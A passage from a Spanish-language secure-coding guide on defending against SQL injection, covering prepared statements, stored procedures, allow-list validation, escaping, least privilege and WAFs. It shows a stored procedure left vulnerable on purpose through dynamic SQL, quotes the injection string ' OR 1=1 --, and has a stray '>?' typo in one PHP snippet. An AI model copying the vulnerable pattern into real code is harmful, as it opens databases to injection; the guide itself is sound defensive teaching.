Las consultas parametrizadas (prepared statements) con variables asociadas (variable binding), son la forma correcta para escribir sentencias SQL. Para ello se define primero todo el código SQL y después se asocia cada parámetro variable. Este tipo de construcción permite a la base de datos distinguir entre código (estructura) y datos (valores) sin importar qué entradas proporcionó un usuario.

Nuestra página está escrita con PHP usando solo una consulta sin preparar. Podemos observar en el siguiente ejemplo cómo sería una consulta preparada en PHP:

.Consulta preparada
[%collapsible]
====
[source,php]
----
<?php
$sentencia = $mbd->prepare("INSERT INTO REGISTRY (name, value) VALUES (:name, :value)");
$sentencia->bindParam(':name', $nombre);
$sentencia->bindParam(':value', $valor);

// insertar una fila
$nombre = 'uno';
$valor = 1;
$sentencia->execute();

// insertar otra fila con diferentes valores
$nombre = 'dos';
$valor = 2;
$sentencia->execute();
?>
----
====

=== 2. Procedimientos almacenados

Los procedimientos almacenados (stored procedures) pueden ayudar a limitar el riesgo asociado a la inyección de código SQL. Estos son código guardado en la base de datos que pueden verse como funciones reutilizables y de acceso rápido por el motor de base de datos. Los procedimientos almacenados también pueden comprobar el tipo de los parámetros de entrada, impidiendo que se introduzcan datos que incumplan el tipo que el campo está diseñado para recibir.

Sin embargo, si fueron programados de forma insegura con ejecución dinámica de SQL el problema seguirá allí. Podemos ver un ejemplo de esto:

.Procedimiento almacenado vulnerable
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    DECLARE @query NVARCHAR(MAX);
    SET @query = 'SELECT * FROM products WHERE category = ''' + @category + ''' AND released = 1';
    EXECUTE sp_executesql @query;
END
----
====

Al crear una consulta internamente con un valor dinámico que afecta a la estructura, la situación es la misma que invocando SQL por programación. El procedimiento almacenado podría verse así con el parámetro como valor y no como parte de la estructura de la sentencia:

.Procedimiento almacenado 
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    SELECT * FROM products WHERE category = @category AND released = 1;
END
----
====

=== 3. Validación contra valores permitidos 

Se usa cuando no se puede usar directamente una consulta parametrizada para protegernos contra inyecciones SQL. Esto pasa en ciertos casos donde el valor que viene del usuario no puede ir como parámetro, porque no es un dato como un número o texto, sino que se trata de partes estructurales de la consulta SQL. Por ejemplo, con el nombre de una tabla o columna, o si el orden en una cláusula ORDER BY será ascendente (ASC) o descendente (DESC). En esta situación la defensa más apropiada es validar las entradas de usuario y/o rediseño de la sentencia SQL.

No se debe permitir que el usuario escriba directamente un nombre de tabla o columna que se inserte tal cual en la consulta SQL, porque eso es muy peligroso. Un ejemplo de cómo validar sería usando un switch, como este ejemplo en PHP:

.White List
[%collapsible]
====
[source,php]
----
<?php
$unsafeUserParameter = $_GET['table'] ?? '';

$tableName = '';

// Validamos con una lista de opciones válidas
switch ($unsafeUserParameter) {
    case 'clients':
        $tableName = 'table_clients';
        break;
    case 'sellers':
        $tableName = 'table_sellers';
        break;
    ...
    default:
        throw new Exception("Valor inesperado proporcionado para el nombre de la tabla.");
>?
}

$query = "SELECT * FROM $tableName";
----
====

* Si el usuario manda el valor "clients", lo convierte a "table_clients".
* Si manda "sellers", lo convierte a "table_sellers".
* Si manda cualquier otro valor, lanzas un error.

De esta forma se asegura de que el nombre que se usa en la consulta sea uno de los que se controlan y no algo malicioso.

=== 4. Escapar todas las entradas de usuario 

Esta es una forma de protegerse contra inyecciones SQL, pero no es la más recomendada. De hecho, solo se debe usar si no se puede aplicar otras defensas mejores, como las consultas parametrizadas o la validación contra valores permitidos.

Escapar significa modificar (o transformar) los datos que vienen del usuario para que no puedan romper la consulta SQL ni ejecutar código malicioso. Por ejemplo, si un usuario escribe *' OR 1=1 --*, al escapar esa entrada, la comilla *'* y otros caracteres peligrosos se transforman en versiones seguras que se interpretan como texto normal y no como parte del código SQL.

Esto se puede realizar con bibliotecas en el caso de java. En el caso de Mysql, podemos ver lo siguiente:

Existen dos modos específicos para realizar esto en Mysql:

. *ANSI_QUOTES SQL*: Escapar todos los caracteres *'*, con *''*.

. *MySQL Mode* que hace lo siguiente:
----
NUL (0x00) --> \0
BS  (0x08) --> \b
TAB (0x09) --> \t
LF  (0x0a) --> \n
CR  (0x0d) --> \r
SUB (0x1a) --> \Z
"   (0x22) --> \"
%   (0x25) --> \%
'   (0x27) --> \'
\   (0x5c) --> \\
_   (0x5f) --> \_

todos los demás caracteres no alfanuméricos con valores ASCII
inferior a 256 --> \c donde 'c' es el carácter no alfanumérico original.
----

Otra forma de hacerlo más seguro es convertir el texto del usuario a hexadecimal. Si un atacante intentara inyectar con la típica comilla simple ' y un espacio, el SQL final se vería:

[source,sql]
----
SELECT * FROM products WHERE hex_encode(category) = '2720...'
----

27 es el código ASCII (en hexadecimal) de la comilla simple y 20 el del espacio en blanco. Como la transformación solo genera dígitos numéricos y letras de la A a la F, ningún caracter especial puede causar la inyección.

=== 5. Aplicar el mínimo privilegio:

El principio de menor privilegio consiste en otorgar a la cuenta de base de datos utilizada por una aplicación solo los permisos estrictamente necesarios para su funcionamiento, evitando el uso de cuentas con privilegios elevados como administrador. Esto reduce el impacto de un posible ataque de inyección SQL, ya que limita lo que un atacante podría hacer si lograra explotar la vulnerabilidad. 

Por ejemplo, si la app solo necesita leer datos, se deben otorgar solo permisos de lectura, evitando accesos innecesarios como modificación de tablas o ejecución de comandos críticos. También se recomienda no ejecutar el servicio de base de datos con permisos elevados en el sistema operativo.

=== 6. Web Application Firewall (WAF)

Cómo ya hemos visto en anteriores pecados vuelve a aparecer el WAF, ya que es una herramienta de seguridad que filtra, monitorea y bloquea tráfico HTTP identificado como malicioso que viaja hacia una aplicación que se intenta proteger. Obviamente, no hay que confiarse y apostar solo por esto, ya que los problemas raíz de la aplicación no se solucionan con un WAF y continuamente se hacen públicas técnicas de bypass para WAF de distintas tecnologías y proveedores. 

Esto es solo una herramienta complementaria -> https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF[SQL Injection Bypassing WAF].

----
"Si piensas que la tecnología puede resolver tus problemas de seguridad, entonces no entiendes los problemas ni entiendes la tecnología."

— Bruce Schneier
----